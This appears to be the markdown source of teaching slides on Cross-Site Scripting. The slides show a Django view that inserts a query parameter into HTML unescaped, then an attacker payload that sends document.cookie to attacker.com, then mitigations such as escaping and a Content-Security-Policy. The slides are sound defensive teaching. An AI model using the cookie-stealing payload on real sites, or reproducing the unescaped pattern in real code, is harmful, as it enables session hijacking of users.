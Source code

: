 layout: true
## 7. Cross-Site Scripting (XSS) <span style="color: #00BCEF">Example</span>
---

<i class="yellow bug icon"></i>
Application uses untrusted data in HTML without escaping:

```python
    return HttpResponse(
        '<input name="creditcard" type="text" value="' + request.GET.get('cc') + '">'
    )
```

<i class="red user secret icon"></i>
Attacker sets cc parameter to:

```
"><script>document.location='http://attacker.com/eat-cookie?foo='+document.cookie</script><br class="
```

<i class="red fire icon"></i>
Resulting HTML:

```html
<input name="creditcard" type="text" value="">
<script>document.location='http://attacker.com/eat-cookie?foo='+document.cookie</script>
<br class="">
```

---
layout: true
## 7. Cross-Site Scripting (XSS) <span style="color: #00BCEF">Example</span>
---

<div style="text-align: center; margin-top: 120px">
<h3 style="font-size: 6em; text-align: center; margin: 0;">
Demo Time!
</h3>
<p>Demo project is located in <code>demo</code> folder.</p>
</div>

---
layout: true
## 7. Cross-Site Scripting (XSS) <span style="color: #21ba45">Mitigation</span>
---

- **Escape** output
  - Use a framework that automatically **escapes by design** (e.g. Django, React)
- Enable a Content Security Policy (**CSP**)
  - An added layer of security
  - `Content-Security-Policy` HTTP header
  - e.g. We want all content to come from the site's own origin:
  ```
  Content-Security-Policy: default-src 'self'
  ```

---